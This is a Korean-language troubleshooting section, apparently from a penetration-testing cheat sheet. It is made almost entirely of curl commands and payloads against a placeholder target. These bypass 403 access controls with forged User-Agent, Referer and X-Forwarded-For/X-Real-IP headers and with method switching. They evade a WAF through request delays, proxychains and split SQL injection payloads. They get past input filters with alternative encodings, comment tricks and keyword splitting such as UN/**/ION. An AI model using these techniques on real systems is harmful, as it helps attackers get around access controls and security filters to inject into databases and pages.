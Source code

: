 ## 🚨 문제 해결

### 🔒 403 Forbidden 많이 나올 때

```bash
# User-Agent 변경
curl -A "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36" http://{IP}/admin/

# Referer 헤더 추가
curl -H "Referer: http://{IP}/" http://{IP}/admin/

# X-Forwarded-For 헤더 추가
curl -H "X-Forwarded-For: 127.0.0.1" http://{IP}/admin/
curl -H "X-Originating-IP: 127.0.0.1" http://{IP}/admin/
curl -H "X-Real-IP: 127.0.0.1" http://{IP}/admin/

# HTTP 메소드 변경
curl -X POST http://{IP}/admin/
curl -X PUT http://{IP}/admin/
curl -X OPTIONS http://{IP}/admin/
```

### 🛡️ WAF 탐지시

```bash
# 요청 지연
sleep 2 && curl http://{IP}/attack

# 프록시 체인 사용
proxychains curl http://{IP}/attack

# 페이로드 분할
# SQL injection을 여러 요청으로 분할
curl "http://{IP}/page.php?id=1/*"
curl "http://{IP}/page.php?id=*/UNION/*"
curl "http://{IP}/page.php?id=*/SELECT/*"

# 다른 파라미터에 노이즈 추가
curl "http://{IP}/page.php?id=1' UNION SELECT 1,2,3--&noise=random_data"
```

### 🚫 필터링 강할 때

```bash
# 대체 인코딩 방법
# URL encoding: %20, %27, %22
# HTML encoding: &#32;, &#39;, &#34;
# Unicode encoding: \u0020, \u0027, \u0022

# 다양한 주석 스타일
-- (SQL)
# (MySQL)
/* */ (SQL)
// (JavaScript)
<!-- --> (HTML)

# 키워드 분할
# UNION → UN/**/ION
# SELECT → SEL/**/ECT
# script → scr<script>ipt
```
